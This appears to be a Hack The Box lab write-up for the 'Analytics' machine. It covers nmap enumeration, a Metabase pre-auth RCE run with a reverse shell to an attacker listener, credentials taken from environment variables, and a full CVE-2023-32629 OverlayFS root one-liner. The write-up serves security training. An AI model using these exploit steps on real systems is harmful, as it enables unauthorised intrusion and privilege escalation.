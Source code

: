```yaml
---
title: Hack the box - Analytics pwned!
date: 2024-03-01 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, machine, analytics, docker, metabase, CVE-2023-32629]
img_path: /assets/img/posts/
---
```


## Machine info

![Analytics](htb-analytics-info.png)
*Analytics info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.101
>
>Target machine (victim, Devvortex): 10.10.11.233
{: .prompt-info}

## Enumeration

If we list the open ports in the machine, we can see that there are two open ports: 22 (ssh) and 80 (http):

`nmap -Pn -n -sS -p- -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.233`

```
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

If we look for more information about the services running in those ports we will find the machine address:

`nmap -Pn -n -sVC -p22,80 10.10.11.233`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add the machine address to our `/etc/hosts`:

`echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts`

Now, we browse to the web to take a look:

![Analytics web](htb-analytics-web.png)
*Analytics web*

If we go to the login page it will not work:

![Analytics web login error](htb-analytics-web-login-error.png)
*Analytics web login error*

The login page it's under the domain `data.analytical.htb`, so let's add it to our `/etc/hosts`:

`echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts`

And, let's reload the login page

![Analytics web login page](htb-analytics-web-login.png)
*Analytics web login page*

## Foothold

### Docker container

We can see that is using `metabase`, so let's look for vulnerabilities:

`searchsploit metabase`

`Metabase 0.46.6 - Pre-Auth Remote Code Execution | linux/webapps/51797.py`

Ok, we got one.
It's a RCE (Remote Code Execution), so we will start listening on our side to try to get a remote shell:

`nc -lvnp 1234`

And, now we copy the script to our working directory and we run it:

`cp /opt/exploitdb/exploits/linux/webapps/51797.py metabase_exploit.py`

`sudo python3 metabase_exploit.py --lhost 10.10.16.101 --lport 1234 --sport 80 --url http://data.analytical.htb`

We got shell, but inside a docker container.
If we print the environment variables, we will find some credentials:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=16a5278f5551
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8

META_USER=metalytics
META_PASS=fakepassword

MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=2
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

### metalytics

With our new credentials, we will login through ssh:

`ssh metalytics@10.10.11.233`

First, we get our user flag:

`cat user.txt`

And, now, we see that with our new user we will not be able to escalate privileges...

```
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

If we look the system version we can see that is a vulnerable Ubuntu version.

```
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/linux
```

The vulnerability is [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629), so we will exploit it to gain root privileges:

`unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'`

Now that we are root, we can get our system flag:

`cat /root/root.txt`

## Pwned!

![Analytics](htb-analytics-pwned.png)
*Analytics has been Pwned*

*Enjoy! ;)*
